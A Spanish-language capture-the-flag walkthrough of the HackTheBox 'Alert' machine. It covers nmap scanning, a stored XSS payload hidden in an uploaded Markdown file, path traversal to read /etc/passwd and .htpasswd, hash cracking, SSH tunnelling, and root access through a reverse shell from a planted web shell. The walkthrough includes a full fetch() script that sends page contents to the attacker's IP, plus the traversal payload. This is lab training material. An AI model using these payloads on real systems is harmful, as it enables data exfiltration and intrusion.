

# Reconocimiento 


Recuerda agregar esta lineal a tu `/ect/hosts`  para que la navegador pueda resolver la pagina 
```bash 
10.10.11.44 alert.htb 
```

Iniciaremos el reconocimiento con NMAP para conocer el numero de puertos que tenemos abiertos 

```bash
> nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.44 -oG Ports

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Tipo de servicios: 

```bash
> nmap -sCV -p22,80 10.10.11.44 -oN PortsInfo

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-title: Alert - Markdown Viewer
|_Requested resource was index.php?page=alert
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Una vez que termine el escaneo sabemos que tenemos el Puerto 22 de ssh y el 80 con Apache siendo este una pagina web con el titulo de `Markdown Viewer`

Visitaremos la Pagina para conocerla y saber que funciones tiene y que sector es vulnerable, el objetivo es encontrar información que no sea útil 

# Visitando a Alert 

La pagina tiene los siguintes apartados o secciones como lo quieras llamar:

```txt
 Markdown Viewer 
 Contact Us 
 About Us 
 Donate 
```

De todos estos el que nos interesa es el de  Markdown Viewer  el cual nos permite cargar una archivo .md para poder visualizarlo 


Algo simple la pagina, si tenemos experiencia en estos campos sabemos que debe de tener un filtro el cual no nos permita subir otro tipo de archivos como .php o .js que son los mas comunes, la pagina si tiene un filtro que no permite subir archivos diferentes a .md pero no tiene un filtro que verifique lo que contenga el archivo .md y podemos hacer la prueba con un `ALERT` de js


Crea un archivo .md donde quiera y dentro de el pon este script de JS para la prueba 

```bash 
<script>alert("Se esta Tensando!");</script>
```


Después sube el archivo para visualizarlo en la pagina y ojito que esta ejecutando nuestro script de  JS desde el archivo de .md 


si intentamos con PHP no funciona:


Ok ya tenemos un vector de ataque, no podemos robar cookies  de sección por que este archivo solo lo estamos viendo nosotros, por ende debemos buscar una forma de hacer una Revershell o algo que nos permite ver mas información 

# Ataque XSS y SSRF 

Bien ya sabemos que podemos inyectar código JS y no podemos robar cookies de sección, entonces nuestro objetivo será visualizar el código fuente de  la pagina, par lo cual ocuparemos este script, estp ejecuta una accion involuntaria de quien lo vea, esto se le conoce como un ataque de tipo SSRF

```js
<script>
fetch("http://alert.htb/").then(response => response.text()).then(data => {
fetch("http://10.10.15.69:443/?data=" + encodeURIComponent(data));
})
.catch(error => console.error("Shhhhhhh ", error));
</script>
```

Este escript no permite obtener todo el código fuente de la pagina que indiquemos, en este caso veremos que tenemos en la raiz, el cual apunte lo mas seguro al index.php, bien para que funcione aremos estos pasos 

Primero cargaremos nuestro archivo con el script JS y cuando lo muestre daremos click a nuestro boton de `Share Markdown`


Esto no redirige a otra pagina y nos generara un link 


Este Link lo copiaremos y en el apartado de Contact Us lom pegaremos, pero antes de enviarlo ejecutaremos un servidor de Python para que por este mismo nos regrese la data


E inmediatamente veremos este hash que esta en formatdo de URL 


Al descífralo tenemos este índex.php  el cual nos muestra una pagina nueva la cual también se puede encontrar con gobuster llamada messages (messages.php)


Usando el mismo script de antes JS, apuntaremos a este archivo de messages.php y obtendremos la siguiente respuesta: 


que al decodificarlo 


La pagina de messages.php ocupa un parámetro llamado `file` el cual si no esta sanitizado, podemos apuntar a varios archivos de la maquina y para saber si, si es posible podemos apuntar al `/ect/passwd`

solo modifica la linea siguiente en el archivo .md 

``` js
fetch("http://alert.htb/messages.phpfile=../../../../../../../../../../../etc/passwd").
```


y haciendo el mismo procedimiento anteriormente mostrado nos daremos cuenta de que si, si podemos apuntar a otros archivos de la maquina 


Tenemos dos usuarios dentro de la maquina: `albert` y `root`

Podemos apuntar a cualquier archivo siempre y cuando no tengan algún permiso en especial de root  en este caso apuntaremos al `.htpasswd`  de Apache 


Tenemos un usuario y una contraseña codificada en MD5 , este Hash de Apache utiliza el formato  de apr1 (Al inicio del Hash nos dice $apr1$)  Bien podemos ocupar ya sea John o Hashcat para descífralo pero usare Hashcat por que no supe como hacerlo con john si tu pudiste hacerlo con John  Felicidades eres todo un PRO  

```bash 
hashcat -m 1600 passwd.txt /usr/share/wordlists/rockyou.txt
```


Bien ahora si nos podemos conectar

# Dentro de Alert HTB


Bien una vez dentro le daremos un tratamiento a la terminal para que sea mas cómoda operar por ella 

```bash
export TERM=xterm
```

Con esto las funciones como $Ctrl + C$ o $Ctrl + L$ Funcionaran bien y tambie obtendremos la primera Flag


Dentro de la maquina podemos listar los servicios que estén corriendo de este lado 

```bash

$ netstat -net
Active Internet connections (w/o servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode     
tcp        0      1 10.10.11.44:55110       8.8.8.8:53              SYN_SENT    101        331297    
tcp        0      0 127.0.0.1:40032         127.0.0.1:80            TIME_WAIT   0          0         
tcp        0    216 10.10.11.44:22          10.10.15.69:33868       ESTABLISHED 0          327471    
tcp        0      0 127.0.0.1:40024         127.0.0.1:80            TIME_WAIT   0          0  
```

Pero no hay algo que nos valga pero si buscamos por servicios que están escuchando  encontraremos el siguiente

```bash 
$ netstat -tuln 
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
udp        0      0 127.0.0.53:53           0.0.0.0:*                          
udp        0      0 0.0.0.0:68              0.0.0.0:*    

$ netstat -tnl | grep 8080
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN 

```

Tenemos un servicio de escucha por el puerto 8080, el cual es una pagina 



Para poder verla usaremos un tunel de  ssh 

```bash
ssh -L 9090:127.0.0.1:8080 albert@alert.htb
```

Este comando hace un túnel para que podamos ver la pagina desde nuestra maquina aquí le estamos indicando el puerto donde queremos verlo, la dirección, y el numero de puerto que esta ejecutando ese servicio 

Y tendremos esto desde nuestro `localhost:9090` :


Dentro de esta pagina nos dan un Link al repositorio de GitHub que este mismo nos da un link para descargar el WEB Monitor 

Algo que deben de saber es que en Linux la mayoría de aplicaciones o binarios de este estilo se instalan en la capeta de `/opt`

por ende podemos ver la aplicación en esta ruta 


y si somos observadores existe una carpeta llamada ``config`` la cual tiena una shellweb 


Con nano podemos modifiacra la web shell con nuestra Ip y un puerto en especifico


Ponemos la ruta en el navegador 


Y con NETCAT recibimos la reverceshell por el puerto que especificamos 


Y con esto ya somos ROOT , Eres todo un Crack 

Tratamiento de la ReverceShell

```bash

script /dev/null -c bash

^Z # Ctrl+Z

stty raw -echo; fg

reset xterm

export TERM=xterm;export SHELL=bash

stty rows 41 columns 192

```

Y con esto ya tenemos la maquina resuelta


